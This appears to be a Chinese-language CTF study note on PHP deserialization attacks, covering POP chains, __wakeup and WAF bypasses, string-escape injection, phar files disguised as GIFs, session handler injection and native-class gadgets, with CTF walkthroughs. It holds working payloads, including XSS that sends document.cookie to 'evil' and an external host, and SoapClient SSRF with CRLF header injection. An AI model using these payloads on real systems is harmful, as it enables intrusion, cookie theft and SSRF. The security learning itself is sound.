







##  反序列化基础

序列化/反序列化:

**序列化（serialize）**：把 PHP 变量（对象/数组/标量）转成可存储、可传输的字节流字符串；

**反序列化（unserialize）**：把字节流还原成原来的 PHP 变量。

**漏洞的本质**：当 `unserialize()` 的输入可被攻击者控制时，攻击者可以注入**任意对象**，并自动触发其魔术方法，配合应用中已有类的属性/方法拼装出调用链（POP 链），最终实现任意代码执行等危害。

```
// 基础示例
class User { public $name = "admin"; protected $level = 9; }

serialize(new User());
// 输出（protected 属性带 \0*\0 前缀，此处以 \00 文本表示）：
// O:4:"User":2:{s:4:"name";s:5:"admin";s:8:"\00*\00level";i:9;}

unserialize('O:4:"User":2:{s:4:"name";s:5:"admin";s:8:"\00*\00level";i:9;}');
// 还原出 User 对象实例
```


### 类型标记速查

| 标记 | 类型         | 格式示例                       | 说明                                                         |
| :--- | :----------- | :----------------------------- | :----------------------------------------------------------- |
| `a`  | array        | `a:2:{i:0;s:3:"foo";i:1;i:1;}` | 键值对，key 与 value 交替                                    |
| `b`  | boolean      | `b:1;` / `b:0;`                |                                                              |
| `d`  | double       | `d:1.2345;`                    | 浮点                                                         |
| `i`  | integer      | `i:123;` / `i:-5;`             | 支持负数                                                     |
| `N`  | null         | `N;`                           |                                                              |
| `O`  | object       | `O:4:"Test":2:{...}`           | 类名长度:类名:属性数:{属性键值}                              |
| `R`  | 指针引用     | `R:2;`                         | 指向之前的值，改一处全联动（绕过"对象只出现一次"类限制）     |
| `r`  | 引用         | `r:2;`                         | 同 zval 引用，但不联动修改                                   |
| `s`  | string       | `s:5:"hello";`                 | 长度:内容                                                    |
| `S`  | 转义字符串   | `S:5:"\68\65llo";`             | **支持 \hh 十六进制转义**，绕过对特殊字符（如 \0、引号）的过滤，绕过关键 WAF |
| `C`  | 自定义序列化 | `C:4:"Test":N:{...}`           | 实现 Serializable 接口的类                                   |
| `E`  | enum         | `E:test:"Case";`               | PHP 8.1+ 枚举                                                |

格式速记:

```
O:len:"Class":count:{key;value;...}      # 对象
s:len:"str" / S:len:"\68\65.."           # 字符串 / 十六进制转义串
a:count:{k;v;k;v;} / i:N / d:N / b:0/1 / N;   # 其余类型
public    s:len:"name"
protected S:len:"\00*\00name"           # 长度 = 原名+3
private   S:len:"\00Class\00name"       # 长度 = 原名+类名长+2
R:n / r:n                                 # 引用第 n 个变量
```


### 属性可见性对序列化的影响（重点）

| 可见性    | 属性名序列化形态     | 长度计算                            |
| :-------- | :------------------- | :---------------------------------- |
| public    | `s:3:"foo";`         | 原名长度                            |
| protected | `s:6:"\0*\0foo";`    | 原名长度 + 3（NUL + * + NUL）       |
| private   | `s:9:"\0Test\0foo";` | 原名长度 + 类名长度 + 2（两个 NUL） |

\0（NUL 字节）是绕过/利用的常见障碍:

HTTP 表单、URL 传输中 NUL 字节常被截断或过滤，导致 private/protected 属性反序列化失败。解决：**S: 类型十六进制转义**：把 `s:9:"\0Test\0foo"` 改写为 `S:9:"\00Test\00foo"`，语义等价且不含真实 NUL 字节。这是 payload 必备技巧。


### 漏洞利用的充要条件

1. 存在 `unserialize()`（或 phar 元数据自动反序列化）且输入**部分或完全可控**；
2. 应用代码中存在可用的**魔术方法/危险方法**作为"起点"和"终点"（POP 链）；
3. 输入通道无严格校验（cookie、参数、header、数据库回显、缓存文件、session 均可成为入口）。


## pop链

**POP（Property-Oriented Programming）**：与 Java 反序列化的"利用链（gadget chain）"同源——攻击者不注入代码本身，而是**注入一串互相咬合的对象**：A 的析构方法调用 B 的属性方法，B 的 __toString 再触发 C……最终到达 `system()` / `file_get_contents()` / `call_user_func()` 等危险函数。

```
unserialize(攻击者输入)
   └─▶ 对象A::__destruct / __wakeup        （链起点：反序列化必然/常见触发）
         └─▶ 对象B::__toString / __call / __get   （链中间件：属性错位触发）
               └─▶ 对象C::__invoke / 危险函数      （链终点：RCE / 读文件 / SSRF）
```


### 入口场景盘点

| 入口                | 特征                                                         |
| :------------------ | :----------------------------------------------------------- |
| Cookie 反序列化     | "记住我"、购物车、多语言偏好等存在 cookie 中的序列化对象（laravel CVE-2018-15133 为代表） |
| 参数/请求体         | Base64 传输的序列化串，常见于老 CMS 与自研后台               |
| 数据库回读          | 对象序列化入库（订单快照、用户扩展字段），存在 SQL 注入时可二次注入反序列化 |
| 缓存文件            | 序列化缓存写到 *.php 可控路径（ThinkPHP 5.x 缓存 RCE）       |
| Session             | session 序列化处理器差异（见第 8 章）                        |
| 文件操作 + phar     | file_exists 等函数触发 phar 元数据自动反序列化（见第 7 章）  |
| 上传的备份/导入文件 | 导入插件 unserialize 文件内容（WordPress 插件重灾区）        |


## 序列化格式深度解析

### 手工构造/修改 payload 的规则

- **属性数可虚报**：写多不写少（老版本触发 __wakeup 绕过），写少会导致解析失败。
- **属性顺序无关**：键值对顺序任意；可插入目标类中不存在的属性（值仍会赋上，PHP 8.2 前允许动态属性）。
- **类名大小写不敏感**：`O:4:"tEst"` 等价 `O:4:"Test"` —— 绕过大小写敏感 WAF。
- **尾部垃圾忽略**：完整对象解析结束后，后面的多余字节被 unserialize 忽略 —— 可在尾部追加任意内容。
- **对象嵌套任意深**：属性值可以是另一个 O: 对象、数组、引用


引用标记 R/r 的妙用:

```
// R:2; 指向第 2 个出现的变量（对象计数从 1 开始，包括最外层）
// 让两个属性指向同一个对象，规避"同名属性被覆盖"或构造特殊比较：
O:1:"T":2:{s:1:"a";O:1:"E":0:{}s:1:"b";R:2;}
// T->a 与 T->b 是同一个 E 对象（R 指针联动
```


### 加密/编码传输的序列化数据

| 场景                     | 利用思路                                                     |
| :----------------------- | :----------------------------------------------------------- |
| Base64 传输              | 解码改对象再编码，无加密强度                                 |
| XOR / 自实现异或加密     | 已知明文攻击：用 serialize 确定性前缀（如 `a:1:{s:`）恢复密钥流 |
| 固定密钥 ECB/AES-128-ECB | ECB 无 IV，切割重组块（比特翻转受限于块对齐，序列化串需精心构造块边界） |
| Laravel APP_KEY 加密     | 拿到 .env 泄露的 APP_KEY 即可伪造加密 cookie                 |
| HMAC 签名                | 无密钥不可伪造 —— 防御正确姿势，前提密钥不泄露               |


## 通用绕过技巧

### __wakeup 绕过（CVE-2016-7124）

当序列化串中**属性个数声明值大于真实属性个数**时，__wakeup 被跳过，但 __destruct 正常触发。影响版本：**PHP 5 < 5.6.25、PHP 7 < 7.0.10**。

```
// 原始（正常触发 __wakeup）：
O:4:"Test":1:{s:3:"cmd";s:9:"phpinfo()";}
// 绕过（声明 2 个属性，实际只给 1 个）：
O:4:"Test":2:{s:3:"cmd";s:9:"phpinfo()";}

// 对 phar 元数据同样适用：构造 phar 时让属性数虚报即可
```


### O:+ 数字绕过正则

```
O:4:"Test":1:{...}   →   O:+4:"Test":1:{...}
// 长度前加 + 号，unserialize 仍接受；绕过 WAF 的 O:\d+ 特征
// 注意：只对 O（对象）有效，s/i 等类型加 + 会解析失败
```


### S: 十六进制转义绕过

```
// private 属性 \0Test\0cmd 无法通过过滤时：
s:9:"\0Test\0cmd";     # 原始（含真实 NUL 字节）
S:9:"\00Test\00cmd";   # S: 类型 + \00 十六进制转义，语义等价
// 同样可对任意字符转义隐藏关键字：
S:3:"\63\6d\64";       # 等价于 s:3:"cmd" —— 绕过对 cmd/eval 等关键字的检测
```


### 字符串逃逸（过滤替换型漏洞）

PHP 反序列化字符串逃逸，本质就一句话：

> **serialize 先算好每个字符串的长度写在串里（s:长度:"内容"），然后过滤函数修改了内容，但是不会去修改前面标记的长度数字！** `unserialize` 是**严格按照标记的长度数字去读字节**，不是读到引号结束。 标记长度和真实内容长度对不上 → 边界错位 → 逃逸。

 unserialize 的读取逻辑非常死板：

1. 看到 `s:5:"`
2. 从 `"` 后面开始，**硬读 5 个字节**
3. 读完这 5 个，就认为这个字符串结束了！**不管有没有遇到 "**


审计特征:

```
危险顺序
$str = serialize($data); // 先序列化
$str = filter($str);     // 再对序列化完的字符串做替换/过滤
unserialize($str);
```


缩短逃逸（替换后变短）完整算例:

设过滤为 `str_replace('bb','a')`（每对 bb 缩短 1 字节），两个可控字段结构：

```
a:2:{s:4:"user";s:L:"字段1";s:4:"pass";s:M:"字段2";}
```

注入目标：让 pass 位置变成恶意对象。构造：

```
字段1 = 38 个 b（即 19 组 "bb"，净缩 19 字节）
字段2 = i:1;O:1:"E":0:{}}        // 17 字节（i:1 为新键，E 为恶意对象，最后 } 闭数组）

// 原始串：
a:2:{s:4:"user";s:38:"bbbb...b";s:4:"pass";s:17:"i:1;O:1:"E":0:{}}";}
// 过滤后字段1缩短 19 字节，s:38 的读取窗口向后多"吃"19字节：
// 恰好吃掉 `";s:4:"pass";s:17:"`（19字节），字符串在此闭合，
// 字段2 的内容 `i:1;O:1:"E":0:{}}` 被当作数组结构解析 → E 对象注入成功
```

**构造公式**：需要吞掉的固定结构 `";s:len:"key";s:digits:"` 的总字节数 = 缩短量 = 字段1中替换对的个数。先写好注入串，再反推需要多少组替换。


 增长逃逸（替换后变长）:

镜像逻辑：替换使字段变长（如 `str_replace('a','aa')`），声明的旧长度不够，窗口提前结束在字段内部 —— 用增长把注入串从"字符串内"推到"结构外"。构造口诀：**每个增长字符抵消注入串 1 个字节的错位**，注入串长度是多少，就在前面垫多少个触发增长的字符。

识别信号

代码审计中看到 `filter(serialize($x))` 或 `preg_replace` 作用在序列化结果上，即可按本章方法构造。这是 CTF 高频题（"PHP 反序列化字符逃逸"）。


### 其他结构变形

| 技巧       | 示例                        | 用途                                           |
| :--------- | :-------------------------- | :--------------------------------------------- |
| 类名大小写 | `O:4:"TeSt"`                | 绕过大小写敏感 WAF（PHP 类名不区分大小写）     |
| 数组包裹   | `a:1:{i:0;O:4:"Test":...}`  | 改变 payload 外形特征                          |
| 冗余属性   | 插入目标类没有的属性        | 扰乱检测规则；PHP 8.2 前有效                   |
| 尾部垃圾   | `...}JUNK`                  | 闭合后追加任意内容（日志投毒/规则绕过）        |
| 双重序列化 | 外层再包一层 serialize 文本 | 绕过只匹配一次模式的过滤（需应用二次反序列化） |


##  Phar 反序列化（绕过 unserialize 缺失的杀手锏）

Phar 是 PHP 的归档格式（类似 JAR）。**Phar 的 metadata（元数据）以 serialize() 形式存储，在任何文件流函数通过 phar:// 协议访问 phar 文件时会被自动 unserialize** —— 即使应用中一行 `unserialize()` 都没有。这是把"文件操作漏洞"升级成"反序列化 RCE"的核心通道。

```
Phar 文件结构：
┌──────────────────────────────────────┐
│ Stub（桩）：任意内容 + <?php __HALT_COMPILER(); ?>  ← 最小合法要求
├──────────────────────────────────────┤
│ Manifest：文件元数据 + 【metadata ← 反序列化点】
├──────────────────────────────────────┤
│ Contents：归档文件内容
├──────────────────────────────────────┤
│ Signature：签名（可选）
└──────────────────────────────────────┘
```


生成 payload 的 phar（模板）

```
<?php
class Poc { public $cmd = 'system("id");'; }

@unlink('poc.phar');
$phar = new Phar('poc.phar');
$phar->startBuffering();
// 桩前加文件头伪装（grease），可过图片类型检测：
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
$phar->setMetadata(new Poc());          // ← 恶意对象藏在这
$phar->addFromString("a.txt", "a");      // 至少一个文件
$phar->stopBuffering();
?>

// 生成：php -d phar.readonly=0 gen.php
// 生成后改名为 poc.gif / poc.jpg（后缀任意），通过上传点传入
// 触发：目标应用 file_exists("phar://.../poc.gif") 时 metadata 自动反序列化
```


触发函数:

| 类别         | 函数/方法                                                    |
| :----------- | :----------------------------------------------------------- |
| 存在性判断   | file_exists、is_file、is_dir、is_link、is_readable、is_writable、is_executable |
| 读写操作     | fopen、fread、file、file_get_contents、file_put_contents、readfile |
| 元信息       | filesize、filetype、filemtime、fileatime、filectime、stat、lstat、touch |
| 目录操作     | opendir、dir、scandir、mkdir、rmdir、readdir、closedir       |
| 文件操作     | unlink、copy、rename                                         |
| 哈希/校验    | md5_file、sha1_file、hash_file、hash_hmac_file、hash_update_file |
| 类型/图像    | getimagesize、exif_imagetype、exif_read_data、finfo_file、finfo_open、mime_content_type |
| 解析加载     | parse_ini_file、simplexml_load_file、xml_parser_create_ns（回调）、DOMDocument::load、XMLReader::open、XSLTProcessor::importStylesheet |
| SPL 对象方法 | SplFileInfo::get*（getSize/getMTime/getCTime/getATime/getType…）、SplFileObject::fopen 系列 |


伪装与绕过:

| 障碍                     | 绕过                                                         |
| :----------------------- | :----------------------------------------------------------- |
| 上传点校验文件头         | Stub 前加 `GIF89a`、`\x89PNG\r\n\x1a\n`、`#!/usr/bin/env php` —— stub 之前允许任意内容 |
| 仅允许图片后缀           | phar 后缀完全任意：.jpg/.gif/.png/.php 皆可触发              |
| 内容检测 __HALT_COMPILER | gzip/bzip2 压缩 phar：`compress.phar.gz`，经 `phar://x.phar.gz` 访问（需 PHP 支持 zlib/bz2） |
| file_exists 前有前缀拼接 | 用 `compress.zlib://`/`php://filter/` 等包装器组合（视代码而定） |
| phar.readonly=1          | 默认开启 —— 只影响**服务器端生成** phar，不影响攻击者本机生成后上传利用 |


##  Session 反序列化

### 三种序列化处理器

| 处理器          | 存储格式                     | 示例                            |
| :-------------- | :--------------------------- | :------------------------------ |
| `php`（默认）   | 键名 \| 序列化值             | `user|s:5:"admin";`             |
| `php_binary`    | 键长(字节) + 键名 + 序列化值 | `\x04users:5:"admin";`          |
| `php_serialize` | 整个 $_SESSION 数组序列化    | `a:1:{s:4:"user";s:5:"admin";}` |

php处理器致命特点：**只认第一个 |**，后面的 | 不管，全部归到值里面。

配置项：`session.serialize_handler`（php.ini / ini_set / PHP-FPM 池配置）。**写入与读取两端处理器不一致 = 注入点**。


处理器差异利用（注入算例）:

```
// 写入端：php_serialize 处理器（如注册页 ini_set）
$_SESSION['|O:8:"stdClass":0:{}'] = 1;
// 实际存储（整体序列化）：
a:1:{s:23:"|O:8:"stdClass":0:{}";i:1;}

// 读取端：php 处理器（默认），按第一个 | 切分：
键名 = a:1:{s:23:"
值   = O:8:"stdClass":0:{}";i:1;
// 值交给 unserialize → stdClass 对象注入成功（尾部垃圾被忽略）
```

利用条件：能控制 session 的**键名**（如通过某接口 `$_SESSION[$key]` 写入），且读取端用了不同处理器。


session.upload_progress 利用:

上面的方式需要有一处代码是 `$_SESSION[$可控key] = ...`，很多题目没有这个业务点，于是就用 `session.upload_progress`。

前置条件

```
session.upload_progress.enabled = On
session.upload_progress.cleanup = On  // 上传完成后会删掉这条session记录，所以要竞争
```


```
// session.upload_progress.enabled=On 时，上传进度以可控字段名写入 session：
<form action="" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="|O:8:"stdClass":0:{}">
  <input type="file" name="f">
</form>
// 配合读取端 php 处理器 + 竞争条件（session 写入瞬间另一个请求读取）可触发注入
// 特点：无需登录、无需可控 $_SESSION 键名的业务接口
```

PHP 原生特性：
当你提交一个 `multipart/form-data` 文件上传请求，并且携带参数 `PHP_SESSION_UPLOAD_PROGRESS`，**PHP 内核自动往 session 里写入一条记录**：

关键点：
`PHP_SESSION_UPLOAD_PROGRESS` 这个 POST 参数的值**我们完全可控**，而且它会被放进 session，不需要后端写任何 `$_SESSION[xxx]` 业务代码！


 Session 文件路径与组合

- 默认存储路径：`session.save_path`，文件名 `sess_ + session_id`，内容含序列化数据 —— LFI 包含 session 文件时可能二次利用。

  

## php 原生类

###  Error/Exception XSS

```
// 目标场景：unserialize($input) 后有 echo / 字符串拼接 → __toString
$a = new Error("<script>fetch('//evil/'+document.cookie)</script>");
echo urlencode(serialize($a));
// 反序列化后一旦被输出 → 存储型 XSS；绕过纯文本转义场景同理
```

Error 内置类

- 适用于php7版本
- 在开启报错的情况下

Error类是php的一个内置类，用于自动自定义一个Error，在php7的环境下可能会造成一个xss漏洞，因为它内置有一个 `__toString()` 的方法，常用于PHP 反序列化中。如果有个POP链走到一半就走不通了，不如尝试利用这个来做一个xss.

下面演示如何使用 Error 内置类来构造 XSS。

测试代码：

```
// 目标场景：unserialize($input) 后有 echo / 字符串拼接 → __toString
<?php
$a = unserialize($_GET['whoami']);
echo $a;
?>
```

（这里可以看到是一个反序列化函数，但是没有让我们进行反序列化的类啊，这就遇到了一个反序列化但没有POP链的情况，所以只能找到PHP内置类来进行反序列化）

POC：

```
<?php
$a = new Error("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>
```


Exception 内置类

- 适用于php5、7版本
- 开启报错的情况下

测试代码：

```
<?php
$a = unserialize($_GET['whoami']);
echo $a;
?>
```

给出POC：

```
<?php
$a = new Exception("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>
```


#### 例题

[BJDCTF 2nd]xss之光

进入题目，首先通过git泄露拿到源码：

```
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```

仅看到一个反序列化函数并没有给出需要反序列化的类，这就遇到了一个反序列化但没有POP链的情况，所以只能找到PHP内置类来进行反序列化。又发现有个echo，没得跑了，就是我们刚才演示的利用Error或Exception内置类进行XSS，但是查看一下题目的环境发现是PHP 5，所以我们要使用Exception类。

由于此题是xss，所以只要xss执行window.open()就能把flag带出来，所以POC如下：

```
<?php
$poc = new Exception("<script>window.open('http://de28dfb3-f224-48d4-b579-f1ea61189930.node3.buuoj.cn/?'+document.cookie);</script>");
echo urlencode(serialize($poc));
?>
```


### SoapClient SSRF + CRLF

PHP 的内置类 SoapClient 是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端。

类摘要如下：

```
SoapClient {
    /* 方法 */
    public __construct ( string|null $wsdl , array $options = [] )
    public __call ( string $name , array $args ) : mixed
    public __doRequest ( string $request , string $location , string $action , int $version , bool $oneWay = false ) : string|null
    public __getCookies ( ) : array
    public __getFunctions ( ) : array|null
    public __getLastRequest ( ) : string|null
    public __getLastRequestHeaders ( ) : string|null
    public __getLastResponse ( ) : string|null
    public __getLastResponseHeaders ( ) : string|null
    public __getTypes ( ) : array|null
    public __setCookie ( string $name , string|null $value = null ) : void
    public __setLocation ( string $location = "" ) : string|null
    public __setSoapHeaders ( SoapHeader|array|null $headers = null ) : bool
    public __soapCall ( string $name , array $args , array|null $options = null , SoapHeader|array|null $inputHeaders = null , array &$outputHeaders = null ) : mixed
}
```

可以看到，该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 `__call` 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。SoapClient 这个类也算是目前被挖掘出来最好用的一个内置类。


该类的构造函数如下：

```
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])
```

- 第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式。
- 第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而uri 是SOAP服务的目标命名空间。


使用 SoapClient 类进行 SSRF:

知道上述两个参数的含义后，就很容易构造出SSRF的利用Payload了。我们可以设置第一个参数为null，然后第二个参数的location选项设置为target_url。

```
<?php
$a = new SoapClient(null,array('location'=>'http://47.xxx.xxx.72:2333/aaa', 'uri'=>'http://47.xxx.xxx.72:2333'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

但是，由于它仅限于HTTP/HTTPS协议，所以用处不是很大。而如果这里HTTP头部还存在CRLF漏洞的话，但我们则可以通过SSRF+CRLF，插入任意的HTTP头。

如下测试代码，我们在HTTP头中插入一个cookie：

```
<?php
$target = 'http://47.xxx.xxx.72:2333/';
$a = new SoapClient(null,array('location' => $target, 'user_agent' => "WHOAMI\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4", 'uri' => 'test'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

执行代码后，如下图所示，成功插入了Redis命令：



这样我们就可以利用HTTP协议去攻击Redis了。


对于如何发送POST的数据包，这里面还有一个坑，就是 `Content-Type` 的设置，因为我们要提交的是POST数据 `Content-Type` 的值我们要设置为 `application/x-www-form-urlencoded`，这里如何修改 `Content-Type` 的值呢？由于 `Content-Type` 在 `User-Agent` 的下面，所以我们可以通过 `SoapClient` 来设置 `User-Agent` ，将原来的 `Content-Type` 挤下去，从而再插入一个新的 `Content-Type` 。

```
<?php
$target = 'http://47.xxx.xxx.72:2333/';
$post_data = 'data=whoami';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$a = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_data).'^^^^'.$post_data,'uri'=>'test'));
$b = serialize($a);
$b = str_replace('^^',"\n\r",$b);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

HTTP 协议规则：**请求头和请求体之间必须是 \r\n\r\n（两个 CRLF）**

join('^^',$headers):用 `^^` 把数组里每一条 header 拼接起来




#### 例题

bestphp's revenge:

bestphp's revenge 这道题利用的就是这个点，即对 SoapClient 类进行反序列化触发 SSRF，并配合CRLF构造payload。

源码:



扫描目录发现flag.php：



可见当REMOTE_ADDR等于127.0.0.1时，就会在session中插入flag，就能得到flag。很明显了，要利用ssrf。

但我们需要特定cookie来确定session文件

这里并没有明显的ssrf利用点，所以我们想到利用PHP原生类SoapClient触发反序列化导致SSRF

POC:

```
<?php
$target = "http://127.0.0.1/flag.php";
$attack = new SoapClient(null,array('location' => $target,
    'user_agent' => "N0rth3ty\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4\r\n",
    'uri' => "123"));
$payload = urlencode(serialize($attack));
echo $payload;
```

这里这个POC就是利用CRLF伪造本地请求SSRF去访问flag.php，并将得到的flag结果保存在cookie为 `PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4` 的session中。

然后，我们就要想办法反序列化这个对象，但这里有没有反序列化点

我们在题目源码中发现了session_start();，很明显，我们可以用session反序列化漏洞。

但是如果想要利用session反序列化漏洞的话，由于默认配置的处理器是 **php**,为了方便我们直接把构造好的 SoapClient 对象存进去，规避 `|` 分隔符干扰,需要改成php_serialize。

本来应该使用ini_set()这个函数来更改 `session.serialize_handler` 的值的，但是这个函数不接受数组，所以就不行了。于是我们就用session_start()函数来代替

即构造 `session_start(serialize_handler=php_serialize)` 就行了。我们可以利用题目中的 `call_user_func($_GET['f'], $_POST);` 函数，传入GET：/?f=session_start、POST：serialize_handler=php_serialize，实现 `session_start(serialize_handler=php_serialize)` 的调用来修改此页面的序列化引擎为php_serialize。

所以，我们第一次传值先注入上面POC生成的payload创建并得到我们的session



但此时还不会触发SSRF，需要触发 `__call` 方法来造成SSRF，该方法在访问对象中一个不存在的方法时会被自动调用，所以单纯反序列化还不行，我们还需要访问该对象中一个不存在的方法，这里就用到了如下这段代码：

```
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
```

我们可以利用extract函数将变量b覆盖为call_user_func，这样，就成了：

```
call_user_func(call_user_func, array(reset($_SESSION), 'welcome_to_the_lctf2018'));
```

call_user_func()函数有一个特性，就是当只传入一个数组时，可以用call_user_func()来调用一个类里面的方法，call_user_func()会将这个数组中的第一个值当做类名，第二个值当做方法名。

这样也就是会访问我们构造的session对象中的welcome_to_the_lctf2018方法，而welcome_to_the_lctf2018方法不存在，就会触发 `__call` 方法，造成ssrf去访问flag.php。

所以我们第二次传参如下：



最后，我们第三次传参，用我们POC里面自己设置的cookie（`PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4`）去访问这个页面，`var_dump($_SESSION);` 会将 `PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4` 的这个session内容输出出来，即可得到flag


###  DirectoryIterator 目录列举/目录穿越

DirectoryIterator 类提供了一个用于查看文件系统目录内容的简单接口，该类是在 PHP 5 中增加的一个类。

DirectoryIterator与glob://协议结合将无视open_basedir对目录的限制，可以用来列举出指定目录下的文件。

测试代码：

```
// test.php
<?php
$dir = $_GET['whoami'];
$a = new DirectoryIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>

# payload一句话的形式:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

我们输入 `/?whoami=glob:///*` 即可列出根目录下的文件：




经典链：`unserialize` → 某个魔术方法触发 `__toString` → 实例是 DirectoryIterator → 打印文件名


### SplFileObject 文件内容读取

该类的构造方法可以构造一个新的文件对象用于后续的读取。其大致原理可简单解释一下，当类中`__tostring`魔术方法被触发时，如果类中内容为存在文件名，那么它会对此文件名进行内容获取。

```
<?php
$dir=new SplFileObject("/flag.txt");
echo $dir;
?>
```

这样只能读取一行，要想全部读取的话还需要对文件中的每一行内容进行遍历

```
<?php
    $dir = new SplFileObject("/flag.txt");
    foreach($dir as $tmp){
        echo ($tmp.'<br>');
    }
?>
```

还有一种办法,使用伪协议php://filter把整个文件编码成单行，一次性读完

```
new SplFileObject("php://filter/read=convert.base64-encode/resource=flag.php");
```

经典链：`unserialize` → 某个魔术方法触发 `__toString` → 实例是SplFileObject → 打印文件内容


## PHP 魔术方法

### __construct()

- **作用**：构造函数，在每次创建新对象时自动调用。用于初始化对象的属性、建立数据库连接、加载配置等准备工作
- **触发时机**：使用 `new` 关键字实例化对象时：`$abc = new MyClass();`
- **参数**：可以接受任意参数，与普通方法一样
- **在类中的声明格式**：

**基本语法格式**

```
public function __construct([参数列表]) {
